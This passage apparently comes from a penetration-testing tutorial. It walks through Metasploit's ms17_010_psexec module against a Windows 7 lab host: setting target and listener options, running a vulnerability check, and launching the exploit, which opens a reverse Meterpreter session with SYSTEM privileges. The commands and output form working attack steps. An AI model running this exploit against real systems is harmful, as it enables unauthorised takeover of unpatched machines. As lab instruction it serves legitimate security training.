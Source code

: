 Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have two options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs).

The second option, `LHOST`, represents the IP of our attack host (this can be a single IP, or the name of a network interface. In the example below, `LHOST` is being set to the IP associated with our `tun0` interface.) We can set them with the `set` command:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```
